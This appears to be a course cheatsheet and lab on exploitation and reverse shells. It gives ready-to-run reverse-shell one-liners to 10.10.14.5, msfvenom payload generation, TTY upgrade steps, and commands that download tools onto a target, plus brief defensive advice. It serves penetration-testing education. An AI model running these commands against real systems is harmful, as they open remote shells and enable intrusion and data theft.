

# Exploitation & Shells (Offensive)

> **TL;DR:** Once you identify a vulnerable service or RCE vector, exploitation turns that weakness into a **shell**. Know how to search public exploits (`searchsploit`), use Metasploit (`msfconsole`/`msfvenom`), catch **reverse shells**, upgrade to a full interactive TTY, and transfer files.

---

## Core Concepts & Mental Model

### Reverse Shell vs. Bind Shell


---

## Quick-Reference Command Cheatsheet

### 1. Finding Exploits & Metasploit
| Tool / Command | Purpose |
|----------------|---------|
| `searchsploit apache 2.4.49` | Search local Exploit-DB archive for matching CVEs/exploits |
| `searchsploit -m 50383` | Mirror (copy) exploit `50383` into your current working directory |
| `msfconsole -q` | Launch Metasploit quietly |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o shell.elf` | Generate a standalone Linux reverse shell binary |
| `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o shell.exe` | Generate a standalone Windows reverse shell executable |

### 2. Listeners & Reverse Shell One-Liners
| Purpose | Command |
|---------|---------|
| **Start Listener** | `nc -lvnp 4444` (or `rlwrap nc -lvnp 4444` for arrow-key history) |
| **Bash Reverse Shell** | `bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'` |
| **Python3 Reverse Shell** | `python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'` |

### 3. Upgrading a Dumb Shell to Interactive TTY (Linux)
```bash
# 1. On the target shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'
# 2. Press Ctrl+Z to background, then on your Kali terminal:
stty raw -echo; fg
# 3. Press Enter, then set terminal type:
export TERM=xterm
```

### 4. File Transfers (Attacker -> Target)
| Method | Command |
|--------|---------|
| **Host on Kali** | `python3 -m http.server 8000` |
| **Download on Linux** | `curl http://10.10.14.5:8000/linpeas.sh -o /tmp/linpeas.sh` (or `wget`) |
| **Download on Windows** | `certutil -urlcache -f http://10.10.14.5:8000/winpeas.exe C:\Windows\Temp\winpeas.exe` |
| **PowerShell Download** | `iwr -Uri http://10.10.14.5:8000/file.exe -OutFile C:\Temp\file.exe` |

---

## Common Pitfalls & Defensive Notes
- **Blindly Running Public Exploits:** Always read exploit code before running it—verify what IP/port it targets, whether it can crash a production service, and ensure it isn't backdoored.
- **Defensive Tip:** Restrict **egress (outbound)** firewall rules on servers so compromised hosts cannot connect out to arbitrary IPs/ports (blocking reverse shells), and alert on unexpected `cmd.exe`/`bash`/`python` child processes spawned by web servers (`w3wp.exe`, `apache2`, `nginx`).

---

## Hands-On Lab: Catch a Local Reverse Shell & Upgrade to Full Interactive TTY

**Goal:** Practice catching a reverse shell with `nc`, upgrading a "dumb" shell to a full interactive TTY (so `Ctrl+C`, tab-completion, and `vim`/`su` work), and hosting a file transfer on Kali.

### Step 1: Start Listener (Terminal 1)
```bash
nc -lvnp 4444
```

### Step 2: Trigger Loopback Reverse Shell (Terminal 2)
```bash
bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'
```
*Teaching Moment:* Terminal 1 now has a shell, but notice if you press `Up Arrow` or `Ctrl+C`, it prints garbage or kills your whole `nc` listener!

### Step 3: Upgrade to Interactive TTY (Inside Terminal 1 Shell)
```bash
# 1. Spawn a real PTY using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 2. Background the shell with Ctrl+Z, then configure local terminal raw mode:
stty raw -echo; fg

# 3. Press Enter, then set TERM for clear/colors:
export TERM=xterm
```
*Result:* Tab-completion, arrow keys, and `Ctrl+C` inside the remote shell now work cleanly! Type `exit` when done.

---

## Practice & Next Steps
- **Labs:** TryHackMe *Metasploit: Introduction*, *What the Shell?*, *Blue*
- **Next Topic:** [Password Attacks](password_attacks.md)
